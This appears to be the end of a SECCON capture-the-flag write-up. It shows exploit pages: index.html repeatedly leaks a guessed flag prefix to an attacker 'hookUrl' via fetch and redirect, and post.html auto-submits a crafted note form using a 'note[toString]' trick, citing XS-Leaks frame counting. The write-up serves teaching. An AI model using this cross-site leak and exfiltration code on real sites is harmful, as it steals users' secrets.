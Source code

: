 ```html title="index.html"
      let prefix = "SECCON{"

      while(true) {
        await fetch(`${hookUrl}?flag=${encodeURIComponent(prefix)}`); // debug

        const c = await search(prefix);
        if (c == null) break;
        prefix += c;
      }

      location = `${hookUrl}?flag=${encodeURIComponent(prefix)}`;
    };

    main();
  </script>
</body>
```

```html title="post.html"
<!DOCTYPE html>
<html>

<head>
</head>

<body>
  <script>
    const submit = (url, pairs) => {
      const form = document.createElement("form");
      form.action = url;
      form.method = "post";
      for (const [k, v] of pairs) {
        const input = document.createElement("input");
        input.name = k;
        input.value = v;
        form.appendChild(input);
      }
      document.body.appendChild(form);
      form.submit();
    };

    const main = async () => {
      const params = new URLSearchParams(location.search);
      const url = decodeURIComponent(params.get("url"));
      const prefix = decodeURIComponent(params.get("prefix"));
      const chars = "}_0123456789abcdefghijklmnopqrstuvwxyz".split("");

      const pairs = [];
      for (const [i, c] of chars.entries()) {
        pairs.push([`note[${i}]`, prefix + c]);
      }
      pairs.push(["note[toString]", "x"]);

      submit(`${url}/createNote`, pairs);
    };

    main();
  </script>
</body>
```


[^unintended]: I welcome unintended solutions because they help me learn something and create diversity in the challenges (but, as an author, I should emit no unintended solutions to maintain the quality of challenges).
[^xs-leak]: Frame Counting | XS-Leaks Wiki: https://xsleaks.dev/docs/attacks/frame-counting/